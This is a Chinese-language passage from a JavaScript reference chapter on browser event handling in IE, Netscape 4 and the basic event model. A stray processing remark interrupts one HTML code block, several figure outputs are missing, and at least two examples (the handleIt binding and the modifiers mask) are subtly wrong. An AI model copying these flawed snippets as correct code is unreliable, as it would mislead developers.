| **onrowsdelete** | 在从记录集中删除行之前立即触发。 | `<applet>`, `<object>`, `<xml>` | Internet Explorer 5+ |
| **onrowsinserted** | 在向记录集中添加行之后立即触发。 | `<applet>`, `<object>`, `<xml>` | Internet Explorer 5+ |
| **onscroll** | 当滚动元素的位置发生变化时触发。 | `<body>`, `<div>`, `<fieldset>`, ``, `<marquee>`, `<span>`, `<textarea>` | Internet Explorer 4+ |
| **onselectionchange** | 当文档的选择状态发生变化时触发。 | Document 对象 | Internet Explorer 5.5+ |
| **onselectstart** | 当用户开始通过高亮选择信息时触发。 | 几乎所有元素。 | Internet Explorer 4+ |
| **onstart** | 当循环滚动的 marquee 开始或重新开始时触发。 | `<marquee>` | Internet Explorer 4+ |
| **onstop** | 当用户点击浏览器的停止按钮，或离开网页时触发 | **Document** 对象 | Internet Explorer 5+ |

#### (X)HTML 中的非标准事件绑定

某些浏览器——最著名的是 Internet Explorer——允许以非标准方式将事件绑定到对象。最常见的语法是使用带有 **for** 属性的 `<script>` 标签，该属性指示应绑定脚本的元素的 **id**，以及指示处理程序的 **event** 属性。例如：

```
<p id="myParagraph">Mouse over this text!</p>

<script type="text/jscript" for="myParagraph" event="onmouseover">

alert("Non-standard markup is a burden for developers and users alike!");

</script>
```

不幸的是，这种语法不属于任何 HTML 或 XHTML 标准的一部分，并且在 Internet Explorer 之外的浏览器中支持最多也只是零星存在。由于这些原因，开发人员绝对应该避免使用这种语法；我们在这里讨论它，是为了让你能在看到同事使用时可以向他们解释。

> 注意 *奇怪的是，虽然 **for** 和 **event** 属性在 (X)HTML 中不受支持，但它们在 DOM1 标准中却受到支持（作为 **HTMLScriptElement** 的 **htmlFor** 和 **event** 属性）。尽管如此，请避免使用它们。*

#### 使用 JavaScript 绑定事件处理程序属性

虽然可以使用 (X)HTML 事件属性将事件处理程序绑定到文档的某些部分，但使用 JavaScript 有时更为方便，特别是如果你想动态添加或删除处理程序。此外，这样做往往能改善文档结构与其逻辑和表现之间的分离。

为此，重要的是要理解事件处理程序是作为其所绑定对象的方法来访问的。例如，要设置表单按钮的 **click** 处理程序，你需要将其 **onclick** 属性设置为所需的代码：

```
<form action="#" method="get" name="myForm" id="myForm">

<input name="myButton" id="myButton" type="button" value="Click me" />

</form>

<script type="text/javascript">

<!--

document.myForm.myButton.onclick = new Function("alert('Thanks for clicking!')");

//-->

</script>
```

注意 正如我们所提到的，JavaScript 中事件处理程序的名称始终为小写。这标记了 JavaScript 属性使用"驼峰式"命名惯例的少数例外之一（也反映了 XHTML 要求属性小写的规定）。

当然，在设置处理程序时，你不必使用匿名函数。例如，注意这里我们如何将 mouseover 处理程序设置为一个现有函数：

```
<script type="text/javascript">

<!--

function showMessage()

{

    alert("Ouch! Get off me!");

}

//-->

</script>

<form action="#" method="get" name="myForm" id="myForm">

<button id="myButton">Mouse over me!</button>

<script type="text/javascript">

<!--

document.getElementById("myButton").onmouseover = showMessage;

//-->

</script>

</form>
```


#### 事件处理程序的作用域

无论所使用的函数是如何定义的，你都必须确保在 HTML 元素被添加到 DOM *之后*再注册事件处理程序。否则，你会因为试图设置一个不存在的对象的属性（事件处理程序）而导致运行时错误。确保这一点的一种方法是将处理程序分配放在文档的 **onload** 处理程序触发之后。另一种确保这一条件的方式是将分配处理程序的脚本放在相关元素之后。

正如我们在第 9 章中讨论的，脚本的执行上下文通常是其文本所在的 **Window**。然而，包含在事件处理程序文本中的脚本具有其绑定对象的上下文。**this** 不再指向 **Window**，而是指向代表该元素的对象。给定以下脚本，

```html
<script type="text/javascript">
<!--
window.name = "My Window";
//--> 
</script>
```

```html
<p name="My Paragraph" onmouseover="alert(this.name);">
鼠标悬停在我上面！
</p>
```

将鼠标悬停在段落上会显示以下对话框：


如果你的处理程序定义在 `<script>` 中，并且需要访问事件发生处的元素，只需像我们在前面的例子中看到的那样，将 **this** 值从处理程序传递给它们。在 Netscape 4+、Internet Explorer 4+ 和支持标准的浏览器中，你还可以使用 **Event** 对象的属性来访问这些信息。我们将在后面关于专有事件模型和 DOM2 事件模型的章节中讨论如何做到这一点。

> *注意* 处理程序具有其绑定对象的上下文，这解释了为什么所有表单字段对象都有一个 **form** 属性：给定对事件发生处字段的引用，它可以让你快速访问 enclosing 表单。

一个重要的细微之处是，只有*在事件处理程序属性文本中* 的 JavaScript 才具有这个作用域；它所调用的任何 JavaScript 都具有"正常"作用域。例如：

```html
<script type="text/javascript">
<!--
window.name = "My Window";
function showThisName()
{
    alert(this.name);
}
//-->
</script>

<p name="My Paragraph" onmouseover="showThisName();">
鼠标悬停在我上面！
</p>
```

结果是


#### 返回值

事件处理程序最有用的特性之一是它们的返回值可以影响事件的默认行为。*默认行为*是指如果事件未被处理，通常会发生的动作。例如，点击链接的默认行为是在浏览器中加载链接目标。激活提交按钮的默认行为是提交表单。重置按钮的默认行为是清除表单字段，等等。

要取消事件的默认行为，只需从其事件处理程序返回 **false**。因此，当表单的 **submit** 处理程序返回 **false** 时，表单提交将被取消。同样，在链接的 **click** 处理程序中返回 **false** 会阻止浏览器加载目标。表 11-4 列出了一些有用的事件及其返回值的效果。

##### 表 11-4：从重要事件处理程序返回 false 的效果

| 事件处理程序 | 返回 false 的效果 |
| :--- | :--- |
| **click** | 单选按钮和复选框不会被设置。对于提交按钮，表单提交被取消。对于重置按钮，表单不会被重置。对于链接，链接不会被跟随。 |
| **dragdrop** | 拖放被取消。 |
| **keydown** | 取消后续的 **keypress** 事件（当用户按住键时）。 |
| **keypress** | 取消 **keypress** 事件。 |
| **mousedown** | 取消默认动作（开始拖动、开始选择模式或武装链接）。 |
| **mouseover** | 导致对窗口 **status** 或 **defaultStatus** 属性的任何更改被浏览器忽略。（相反，返回 **true** 会导致窗口状态的任何更改被浏览器反映出来）。 |
| **submit** | 取消表单提交。 |

一个例子将使这一功能的实用性更加清晰。考虑以下确认用户是否希望跟随链接的处理程序：

```html
<a href="http://www.w3c.org/" onclick="return confirm('前往 W3C 吗？');">W3C</a>
```

当用户点击链接时，元素的 **click** 处理程序触发并提示用户确认框。如果用户响应为肯定（"是"），**confirm()** 返回 **true**，此值由处理程序返回，浏览器被允许继续。如果用户响应为否定，**confirm()** 返回 **false**，此值由处理程序返回，加载 URL 的默认动作被取消。

使用此功能时最常见的编程错误是忘记从处理程序 **return** 返回值。如果前面的例子改成

```html
<a href="http://www.w3c.org/" onclick="confirm('前往 W3C 吗？');">W3C</a>
```

那么无论用户如何响应都无关紧要；**confirm()** 的值永远不会被返回给浏览器。

事件处理程序返回值最有用的应用之一是在表单提交中。在将表单数据发送到服务器之前验证表单数据通常是可取的，以便捕获常见的拼写错误或无效数据。考虑以下验证单个字段的例子：

```html
<script type="text/javascript">
<!--
function validateField(field)
{
  if (field.value == "")
  {
    alert("您必须输入用户名。");
    field.focus();
    return false;
  }
  return true;
}
//-->
</script>

<form action="/cgi-bin/login.cgi" method="get"
     onsubmit="return validateField(this.username);">
用户名: <input type="text" name="username" id="username" />
<input type="submit" value="登录" />
</form>
```

事件处理程序被传递对当前表单中字段的引用，并检查 *username* 的内容。如果字段为空，会显示错误信息，然后触发焦点事件将用户带回空字段，最后返回 **false** 以终止表单提交。如果提供了值，则返回 **true**，允许表单提交继续。

前面的例子仅用于说明事件处理程序、返回值和事件方法协同工作。我们将在 [第 14 章](#) 中看到更多复杂的表单验证示例。

#### 手动触发事件

你还可以使用 JavaScript 直接在某些对象上调用事件。这样做会导致事件的默认动作发生。例如：

```html
<form id="myForm" name="myForm" action="#" method="get">
<input type="button" id="button1" name="button1" value="按我"
onclick="alert('你好');" />
</form>

<script type="text/javascript">
<!--
document.myForm.button1.click();
//-->
</script>
```

此脚本自动触发按钮上的 **click** 事件，触发一个警报。

通过 (X)HTML 属性或直接使用 JavaScript 绑定的事件处理程序通常在现代浏览器中对脚本可用，就像对象的任何其他方法一样。例如：

```html


<form action="#" method="get">
<input type="button" value="触发 Mouseover 处理程序"
onclick="document.images['myButton'].onmouseover();" />
<input type="button" value="触发 Mouseout 处理程序"
onclick="document.images['myButton'].onmouseout();" />
</form>
```

可以直接调用的事件以及可以调用它们的元素显示在 [表 11-5](#) 中。一些浏览器可能支持更多事件，但 [表 11-5](#) 中列出的是您通常会遇到的最少事件。

##### 表 11-5：可以直接在 (X)HTML 元素上调用的事件

| 事件方法 | 元素 |
| --- | --- |
| click() | `<input type="button">`、`<input type="checkbox">`、`<input type="reset">`、`<input type="submit">`、`<input type="radio">`、`<a>`（不在 DOM 中，但通常支持） |
| blur() | `<select>`、`<input>`、`<textarea>`、`<a>` |
| focus() | `<select>`、`<input>`、`<textarea>`、`<a>` |
| select() | `<input type="text">`、`<input type="password">`、`<input type="file">`、`<textarea>` |
| submit() | `<form>` |
| reset() | `<form>` |

直接在表单上调用事件时的一个主要陷阱是 **submit()** 方法在提交之前*不会*调用表单的 **onsubmit** 处理程序。在以下示例中，两个警报都会显示：

```html
<form name="myForm" id="myForm" action="somecgi.cgi" method="get"
      onsubmit="alert('onsubmit 触发'); return false;">
<input name="mySubmit" id="mySubmit"
         type="submit" value="提交" onclick="alert('click 触发');" />
</form>

<script type="text/javascript">
<!--
document.forms["myForm"].mySubmit.click();
//-->
</script>
```

然而，使用 **submit()** 方法会绕过 **onsubmit** 处理程序，如下所示，

```javascript
document.forms["myForm"].submit();
```

并导致表单立即被发送到服务器。为了解决这个问题，如果你要以编程方式提交表单，你应该自己触发任何事件处理代码。


### 现代事件模型概述

基本事件模型对于表单验证等简单任务表现良好，但如果你希望网页的行为更像一个应用程序，它就显得力不从心了。首先，在基本模型中，除了事件发生这一信息外，没有其他关于事件的额外信息传递给处理程序。其次，在传统模型中，对象层次结构不同部分的事件处理程序之间没有简单的交互方式。最后，你只能手动在那些提供事件方法（如**click()**）的元素上触发事件。现代事件模型——即 4.x 代及更高版本浏览器支持的模型——解决了这些缺点，尽管方式不同且互不兼容。2级 DOM 更进一步，将专有模型整合成一个标准，并显著扩展了其能力。

4+ 代模型与基本模型的一个主要区别是增加了 **Event** 对象。该对象为事件处理程序提供了事件发生时的上下文快照。例如，它包括事件的屏幕坐标、使用的鼠标按钮（如果有），以及事件发生时按下的任何修饰键（如 ALT 或 CTRL）。

另一个主要区别是，较新模型中的事件会*传播*通过文档层次结构。在 Netscape 4 中，事件从层次结构的顶部开始，“向下滴落”到发生事件的对象，使外层对象有机会修改、取消或处理该事件。在 Internet Explorer 下，事件从发生事件的对象开始，“冒泡”上升到层次结构。在 DOM2 下，事件可以向下滴落并向上冒泡，如下所示：


#### Netscape 4 事件模型

Netscape 4 实现了第一个具有基本事件模型中没有的高级功能的事件模型。这些功能在如何处理事件以及可以在文档对象层次结构中的何处处理方面提供了更大的灵活性。

不幸的是，该模型已经“过时”，因为它*仅*存在于 Netscape 4 版本的浏览器中。由于基于 Mozilla 的浏览器采用了 DOM2 模型，且 Netscape 6+ 基于 Mozilla，该模型已成为一个进化上的死胡同。我们在此介绍它，是为了满足那些需要确保向后兼容性的读者，并为其对 DOM2 模型的历史影响提供见解。

##### 事件对象

当 Netscape 4 中发生事件时，浏览器会创建一个 **Event** 对象并将其传递给处理程序。表 11-6 列出了 **Event** 对象的一些有趣属性。

**表 11-6：Netscape 4 的 Event 对象的实例属性**

| 属性 | 描述 |
|---|---|
| data | 包含被拖放对象 URL 的字符串数组。 |
| modifiers | 位掩码，指示事件期间按下了哪些修饰键。该位掩码是常量 **ALT_MASK**、**CONTROL_MASK**、**META_MASK** 和 **SHIFT_MASK** 的按位组合，它们是 **Event** 对象的静态（类）属性。例如，如果按下了 ALT 和 CTRL 键，modifiers 将具有值（**Event.ALT_MASK & Event.CONTROL_MASK**）。 |
| pageX | 数值，指示事件发生的水平坐标。 |
| pageY | 数值，指示事件发生的垂直坐标。 |
| screenX | 数值，指示事件相对于整个屏幕发生的水平坐标。 |
| screenY | 数值，指示事件相对于整个屏幕发生的垂直坐标。 |
| target | 对事件发生对象的引用。 |
| type | 包含事件类型的字符串（例如 "click"）。 |
| which | 对于鼠标事件，数值表示使用了哪个鼠标按钮（1 为左键，2 为中键，3 为右键）；对于键盘事件，则是按下的键的数值（Unicode）值。 |

将 **Event** 对象传递给处理程序的方式有些微妙。如果处理程序定义为 (X)HTML 属性，则脚本可以通过 **event** 标识符在属性文本中隐式访问 **Event** 对象。例如，以下脚本向用户显示 **click** 的 x 坐标：

```html
<a href="index.html" onclick="alert('Click at ' + event.screenX);">
Click me!
</a>
```

因为隐式可用的 **event** 标识符仅在事件处理程序属性的文本中可用，所以 JavaScript 调用的任何函数都无法访问它。你需要手动将其传递给它们。以下代码说明了忘记这样做的常见错误：

```html
<script type="text/javascript">
<!--
function myHandler()
{
alert("Event type: " + event.type);
}
//-->
</script>
<a href="#" onclick="myHandler(); return false;">Click me!</a>
```

如果你检查 JavaScript 控制台，应该会看到类似这样的错误：


要修复此问题，请手动传递 **Event**：

```html
<script type="text/javascript">
<!--
function myHandler(event)
{
alert("Event type: " + event.type);
}
//-->
</script>
<a href="#" onclick="myHandler(event); return false;">Click me!</a>
```

结果如预期所示：


由于否则将没有其他方式在通过 JavaScript 绑定到对象的处理程序中访问 **Event** 对象，因此 **Event** 对象始终作为参数传递给此类函数。因此，如果一个通过 JavaScript 绑定为事件处理程序的函数希望访问 **Event** 对象，则该函数必须声明为接受一个参数（尽管不一定非要将其称为 "event"）。例如，要显示附加到链接的 **click** 事件的 x 坐标，你可以使用

```html
<a href="index.html">Click me!</a>
<script type="text/javascript">
<!--
function handleIt(e)
{
    alert("Click at " + e.screenX);
    document.links[0].onclick = handleIt;
}
//-->
</script>
```

##### 事件捕获

在 Netscape 4 下，**Window**、**Document** 和 **Layer** 对象可以在其预定目标处理事件之前“捕获”事件。当你想在一个地方处理文档的一堆事件时，此功能非常有用。你可能有一系列表单按钮，并希望用一个函数处理对它们的点击，因此你可以为 **Document** 定义一个 **click** 处理程序来实现这一点。然后，你将使用处理程序收到的 **Event** 对象的内容来确定哪个按钮被点击，并执行任何必要的处理。

要设置事件捕获，请使用 **Window**、**Document** 或 **Layer** 的 **captureEvents()** 方法。此方法的参数是一个位掩码，指示对象要捕获哪些事件。与 **modifiers** 属性使用的常量一样，这些位掩码被定义为 **Event** 对象的静态属性。支持的常量（区分大小写）列在表 11-7 中。

**表 11-7：Netscape 4 中用于事件捕获的 Event 对象的静态属性**

| | | | |
|---|---|---|---|
| ABORT | ERROR | MOUSEDOWN | RESET |
| BLUR | FOCUS | MOUSEMOVE | RESIZE |
| CHANGE | KEYDOWN | MOUSEOUT | SELECT |
| CLICK | KEYPRESS | MOUSEOVER | SUBMIT |
| DBLCLICK | KEYUP | MOUSEUP | UNLOAD |
| DRAGDROP | LOAD | MOVE | |

要在 **Document** 级别捕获所有 **click** 事件，你可以使用如下所示的脚本：

```html
<script type="text/javascript">
<!--
function docClick(e)
{
   alert("Someone clicked on this document");
}
// Only try to capture events if it is Netscape 4
if (document.layers)
{
   document.captureEvents(Event.CLICK);
   document.onclick = docClick;
}
//-->
</script>
```

要捕获多个事件，你应该将所需的事件掩码按位或（`|`）在一起。例如，要捕获所有 **click**、**dblClick** 和 **blur** 事件，你可以使用

```javascript
document.captureEvents(Event.CLICK | Event.DBLCLICK | Event.BLUR);
```

关闭事件捕获的方式类似。你调用相应对象的 **releaseEvents()** 方法，并将要释放的事件位掩码作为参数传递。要关闭 **Document** 级别的 **blur** 和 **click** 事件的事件捕获，你使用

```javascript
document.releaseEvents(Event.BLUR | Event.CLICK);
```

##### 事件传播与路由

由于 Netscape 从上到下传播事件，文档对象树中较高层次的处理程序总是有机会在较低层次的处理程序之前处理事件。例如，如果你已指示 **Window** 和 **Document** 捕获 **click** 事件，那么 **Window** 将捕获该事件，因为它位于文档对象层次结构的更高位置。

然而，有时较高层次的处理程序可能希望不处理某个特定事件。例如，你可能在 **Document** 级别捕获所有点击，以便在一个地方处理所有按钮点击。但处理程序可能收到一个并非发生在按钮上的 **click** 事件，因此你可能希望该事件继续其旅程到达其预期目标（例如，一个链接）。

要让事件沿着层次结构继续向下传递，处理程序调用 **routeEvent()** 方法，并将其正在处理的事件作为参数。例如，假设你可能希望在用户按下 ALT 键时以特殊方式处理点击。

你可以捕获 **Window** 级别的点击，检查 **Event**，如果 ALT 键未被按下，则将其传递给较低级别的处理程序进行处理。

```javascript
function handleClicks(event)
{
    if (event.modifiers & Event.ALT_MASK)
    {
        // do something special because they have ALT depressed
    }
    else
        routeEvent(event);
}

window.captureEvents(Event.CLICK);
window.onclick = handleClicks;
```

**routeEvent()** 的一个偶尔有用之处在于，它返回最终处理该对象的处理程序返回的值。因此，较高层次的处理程序可以跟踪事件在传递后发生了什么。它们可以根据最终目标返回 **true** 还是 **false** 来调整其行为。

有时，程序员发现有必要将事件直接发送到特定对象，跳过层次结构中的中间对象或“横向”发送到另一个分支上的对象。Netscape 4 允许使用 **handleEvent()** 方法来实现这一点。此方法作为要发送到的对象的属性被调用，并将事件本身作为参数。目标对象的相应事件处理程序会立即被调用，就好像它是事件的原始目标一样。例如，要捕获所有表单提交并将其发送到页面上的最后一个表单进行处理，你可能使用

```javascript
function handleSubmits(event)
{
    document.forms[document.forms.length - 1].handleEvent(event);
}

window.captureEvents(Event.SUBMIT);

window.onsubmit = handleSubmits;
```

#### Internet Explorer 4+ 事件模型

Internet Explorer 4 及更高版本的事件模型比 Netscape 4 的事件模型更为先进。因为在 IE4+ 中，页面中的每个元素都表示为一个对象，所以能够生成事件的元素集合更加丰富、更加健壮。此外，微软还为每个对象实现了更多种类的事件。一个主要的缺点是，事件传播的方向与 Netscape 4 相反，这在需要向后兼容的跨浏览器编程环境中增加了复杂性。

##### 将处理程序绑定到对象

无论用户使用什么浏览器，你都可以通过直接在元素中指定 (X)HTML 属性或使用 JavaScript 将事件处理程序绑定到对象。但 Internet Explorer 提供了一种额外的机制来实现这一点：**attachEvent()** 方法。此方法在 Internet Explorer 5 中被添加到所有文档对象中，以支持 DHTML 行为（第 21 章），很可能也是为了顺应 DOM2 标准（尽管其 DOM2 对应方法的语义有很大不同）。

**attachEvent()** 方法的语法如下：

```
object.attachEvent("event to handle", eventHandler);
```

其中，第一个参数是一个类似 "onclick" 的字符串，*eventHandler* 是事件发生时应调用的函数。返回值是一个布尔值，表示绑定是否成功。

要移除以这种方式绑定的处理程序，使用与绑定完全相同的参数调用 **detachEvent()**。以下简单示例说明了语法：

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<title>IE 附加/移除事件测试</title>
<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />
<script type="text/javascript">
<!--
function showAuthor()
{
    alert("Oscar Wilde");
}

function enableEvent()
{
    someText.attachEvent("onmouseover", showAuthor);
}

function disableEvent()
{
    someText.detachEvent("onmouseover", showAuthor);
}
//-->
</script>
</head>
<body onload="enableEvent();">
<em id="someText">We may be in the gutter, but some of us are looking at the stars</em>
<form action="#" method="get">
    <input type="button" value="Attach Event" onclick="enableEvent();" />
    <input type="button" value="Detach Event" onclick="disableEvent();" />
</form>
</body>
</html>
```

> **注意** 你可以使用 **attachEvent()** 将多个处理程序绑定到同一对象的同一事件。但是，处理程序的调用顺序无法保证。

##### 事件对象

与 Netscape 4 类似，当 Internet Explorer 中发生事件时，浏览器会创建一个临时的 **Event** 对象，并将其提供给适当的处理程序。与 Netscape 4 不同的是，它以全局变量 **event** 的形式隐式可用。该对象的一些属性列于表 11-8 中。

**表 11-8：IE4+ Event 对象的一些有用属性**

| 属性 | 说明 |
| :--- | :--- |
| srcElement | 对事件目标对象的引用（即事件的目标）。 |
| type | 包含事件类型的字符串，例如 "click"。 |
| clientX | 表示事件水平坐标的数值。 |
| clientY | 表示事件垂直坐标的数值。 |
| screenX | 表示事件相对于整个屏幕的水平坐标的数值。 |
| screenY | 表示事件相对于整个屏幕的垂直坐标的数值。 |
| button | 表示按下的鼠标按钮的数值（主按钮为 0，但随系统而异）。 |
| keyCode | 表示按下的键的 Unicode 值的数值。 |
| altKey | 表示 ALT 键是否被按下的布尔值。 |
| ctrlKey | 表示 CTRL 键是否被按下的布尔值。 |
| shiftKey | 表示 SHIFT 键是否被按下的布尔值。 |
| cancelBubble | 表示事件不应在层次结构中向上冒泡的布尔值。 |
| returnValue | 表示事件处理程序返回值的布尔值。除非事件冒泡已被取消，否则冒泡链中的其他处理程序有机会更改此值。 |
| fromElement | 在 mouseover 或 mouseout 事件中，鼠标正在离开的元素引用。 |
| toElement | 在 mouseover 或 mouseout 事件中，鼠标正在移动到的元素引用。 |

由于 Event 对象在任何地方都隐式可用，因此不需要将其传递给通过 JavaScript 绑定的处理程序。但是，这样做也没有坏处，而且这样编写脚本可以使你的代码同时兼容 Netscape 4 和 IE4+。

##### 事件冒泡

Internet Explorer 中的事件流向与 Netscape 4 相反。大多数事件从发生的对象开始，然后向上冒泡到层次结构。冒泡事件使层次结构中每一级的适当处理程序都有机会处理、重定向或继续传递事件。冒泡事件会一直上升到 Document，但在那里停止（即它们不会继续传播到 Window）。

一些具有特定、明确定义的事件，例如表单提交和接收焦点，不会冒泡。冒泡事件会沿着树向上移动，在层次结构的每一级调用适当的处理程序，直到到达顶部或被取消；而非冒泡事件则只调用事件发生对象的处理程序。其原理是，这类事件在层次结构的更高层次上没有定义良好的语义，因此不应在树中向上传播。Internet Explorer 事件列表及其冒泡行为见表 11-9。

**表 11-9：Internet Explorer 事件的行为**

| 事件处理程序 | 冒泡？ | 可取消？ |
| --- | --- | --- |
| onabort | 否 | 是 |
| onactivate | 是 | 否 |
| onafterprint | 否 | 否 |
| onafterupdate | 是 | 否 |
| onbeforeactivate | 是 | 是 |
| onbeforecopy | 是 | 是 |
| onbeforecut | 是 | 是 |
| onbeforedeactivate | 是 | 是 |
| onbeforeeditfocus | 是 | 是 |
| onbeforepaste | 是 | 是 |
| onbeforeprint | 否 | 否 |
| onbeforeunload | 否 | 是 |
| onbeforeupdate | 是 | 是 |
| onblur | 否 | 否 |
| onbounce | 否 | 是 |
| oncellchange | 是 | 否 |
| onchange | 否 | 是 |
| onclick | 是 | 是 |
| oncontextmenu | 是 | 是 |
| oncontrolselect | 是 | 是 |
| oncopy | 是 | 是 |
| oncut | 是 | 是 |
| ondataavailable | 是 | 否 |
| ondatasetchanged | 是 | 否 |
| ondatasetcomplete | 是 | 否 |
| ondblclick | 是 | 是 |
| ondeactivate | 是 | 否 |
| ondrag | 是 | 是 |
| ondragend | 是 | 是 |
| ondragenter | 是 | 是 |
| ondragleave | 是 | 是 |
| ondragover | 是 | 是 |
| ondragstart | 是 | 是 |
| ondrop | 是 | 是 |
| onerror | 否 | 是 |
| onerrorupdate | 是 | 否 |
|onfilterchange | 否 | 否 |
| onfinish | 否 | 是 |
| onfocus | 否 | 否 |
| onfocusin | 是 | 否 |
| onfocusout | 是 | 否 |
| onhelp | 是 | 是 |
| onkeydown | 是 | 是 |
| onkeypress | 是 | 是 |
| onkeyup | 是 | 否 |
| onlayoutcomplete | 是 | 是 |
| onload | 否 | 否 |
| onlosecapture | 否 | 否 |
| onmousedown | 是 | 是 |
| onmouseenter | 否 | 否 |
| onmouseleave | 否 | 否 |
| onmousemove | 是 | 否 |
| onmouseout | 是 | 否 |
| onmouseover | 是 | 是 |
| onmouseup | 是 | 是 |
| onmousewheel | 是 | 是 |
| onmove | 是 | 否 |
| onmoveend | 是 | 否 |
| onmovestart | 是 | 是 |
| onpaste | 是 | 是 |
| onpropertychange | 否 | 否 |
| onreadystatechange | 否 | 否 |
| onreset | 否 | 是 |
| onresize | 否 | 否 |
| onresizeend | 是 | 否 |
| onresizestart | 是 | 是 |
| onrowenter | 是 | 否 |
| onrowexit | 否 | 是 |
| onrowsdelete | 是 | 否 |
| onrowsinserted | 是 | 否 |
| onscroll | 否 | 否 |
| onselect | 否 | 是 |
| onselectionchange | 否 | 否 |
| onselectstart | 是 | 是 |
| onstart | 否 | 否 |
| onstop | 否 | 否 |
| onsubmit | 否 | 是 |
| onunload | 否 | 否 |

你可能会对表 11-9 中的"可取消"列感到好奇。这里的含义是，可取消的事件可以通过脚本阻止其向上传播。我们稍后会看到如何实现这一点，但目前为了说明事件冒泡的实际效果，请考虑以下示例。在层次结构中的多个对象上定义了 **click** 的处理程序，每个处理程序将其所附着的元素名称写入 **id** 为 "results" 的段落中：

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
```


让我仔细处理这段 OCR 文本。

http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<title>事件冒泡示例</title>
<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />
<script type="text/javascript">
<!--
function gotClick(who)
{
    document.all.results.innerHTML += who + " got the click <br />";
}
//-->
</script>
</head>
<body onclick="gotClick('body');">
<table onclick="gotClick('table');">
  <tr onclick="gotClick('tr');">
    <td onclick="gotClick('td');">
      <p onclick="gotClick('p');">
点击<b onclick="gotClick('b');">粗体文字</b>来
观察冒泡效果！
      </p>
    </td>
  </tr>
</table>
<hr /> <br />
<p id="results"> </p>
</body>
</html>

点击粗体文字会在 `<b>` 标签上触发一个 **click** 事件。然后该事件会向上冒泡，依次调用包含层级中上方对象的 **onclick** 处理程序。结果显示在图 11-1 中。


**图 11-1：** 点击粗体文字触发一个 **click** 事件，该事件沿层级结构向上冒泡。

##### 阻止冒泡

你可以通过设置 **Event** 对象的 **cancelBubble** 属性来阻止事件沿层级结构向上传播。该属性默认值为 **false**，这意味着当处理程序处理完事件后，事件将继续向层级中的上一层封闭对象传播。将 **cancelBubble** 属性设置为 **true** 可以在当前处理程序执行完毕后阻止进一步冒泡。例如，你可以通过以下小幅修改来阻止事件传播到上例中的 `<b>` 标签之外：

```
...<b onclick="gotClick('b');event.cancelBubble=true;">BOLD TEXT</b>...
```

进行此修改后点击粗体文字的结果如图 11-2 所示。


**图 11-2：** 如果事件可取消，设置 `event.cancelBubble` 可阻止事件传播。

并非所有事件都是可取消的；[表 11-9]列出了每个事件是否可以此方式取消。

需要特别注意的是，从处理程序返回 **false**（或设置 `event.returnValue` 为 **false**）只会阻止事件的默认行为，但不会取消冒泡。由冒泡行为触发的后续处理程序仍然有机会处理事件，并且它们返回的任何值（或设置的 `event.returnValue` 值）将"覆盖"前一个处理程序设置或返回的值。

相反，取消冒泡不会影响事件的返回值。因为 **event** 的默认 **returnValue** 为 **true**，所以如果你想阻止事件的默认行为，需要确保返回 **false** 或将 **returnValue** 设置为 **false**。

##### 模拟 Netscape 的事件捕获

由于 IE4+ 中页面的所有部分都是可脚本化的，执行类似 Netscape 4 的事件捕获非常简单。只需在层级结构中的适当级别设置处理程序即可，例如，在 **Document** 级别使用函数 *myHandler* 来捕获点击事件。

`document.onclick = myHandler;`

然后省略下方对象的 **Click** 处理程序。要取消事件捕获，只需将相应的处理程序设置为 **null** 即可，例如，关闭 **Document** 级别的 **click** 捕获：

`document.onclick = null;`

##### 事件路由

事件严格通过包含它们的层级对象向上冒泡。不过，在 Internet Explorer 5.5+ 中有一种原始的重定向方式。每个对象都有一个 **fireEvent()** 方法，可以将事件转移到调用该方法的对象上：

`object.fireEvent("event to fire" [, eventObject])`

第一个参数是一个字符串，表示要触发的处理程序，例如 "onclick"。可选的 *eventObject* 参数是用于创建新 **Event** 对象的 **Event** 对象。如果未提供 *eventObject*，则会创建一个全新的 **Event** 对象并进行初始化，就像事件真的发生在目标对象上一样。如果指定了 *eventObject*，其属性将被复制到新的 **Event** 对象中，但 **cancelBubble**、**returnValue**、**srcElement** 和 **type** 除外。这些值始终被分别初始化为 **false**、**true**、触发事件的元素以及 **fireEvent()** 第一个参数指定的事件类型。

此方法的一个主要缺点是，其调用会创建一个新的 **Event** 对象，因此在交接过程中会丢失对原始目标的引用（`event.srcElement`）。

以下示例说明了该方法：

```
function handleClick()
{
    event.cancelBubble = true;

    // Redirect event to the first image on the page
    document.images[0].fireEvent("onclick", event);
}
```

当设置为 **click** 处理程序时，前面的函数会将事件重定向到页面中的第一张图片。

在重定向到另一个对象之前，记得先取消原始事件；否则会导致事件"分叉"——允许原始事件继续沿层级结构向上冒泡，同时将 **fireEvent()** 创建的新事件添加到事件队列中。新事件只会在原始事件完成冒泡之后才会被触发。

##### 事件创建

在基本事件模型中，你可以通过直接调用事件处理程序来模拟事件，也可以通过调用 **submit()** 和 **focus()** 等方法来隐式创建一些"真实"事件。Netscape 4 通过其 **routeEvent()** 方法提供了更大的灵活性。Internet Explorer 5.5+ 更进一步，提供了创建实际 **Event** 对象的方式。语法为：

```
var myEvent = document.createEventObject([eventObjectToClone]);
```

**Document** 对象的这个 **createEventObject()** 方法返回一个 **Event** 对象，如果存在 *eventObjectToClone* 参数则克隆该对象。你可以设置新创建的 **Event** 的属性，并通过将其作为参数传递给 **fireEvent()** 来使事件在你选择的对象上发生。

虽然大多数程序员实际上不太需要使用此功能，但创建任意事件并使其在文档层级中的任何元素上发生的能力，在编写基于 JavaScript 的应用程序时非常方便。例如，它们可以作为构建通用 JavaScript 消息传递系统的有用基础，还可以用于创建复杂用户操作序列的界面测试，这些测试如果手动触发将非常繁琐。

##### 其他专有功能

Internet Explorer——尤其是 5.5 及更高版本——提供了比我们在此介绍的更多的事件相关功能。其中大部分涉及 IE 为特殊用户操作（如拖放、打印等）支持的专有事件处理程序。如需了解更多信息，请访问 http://msdn.microsoft.com。

#### DOM2 事件模型

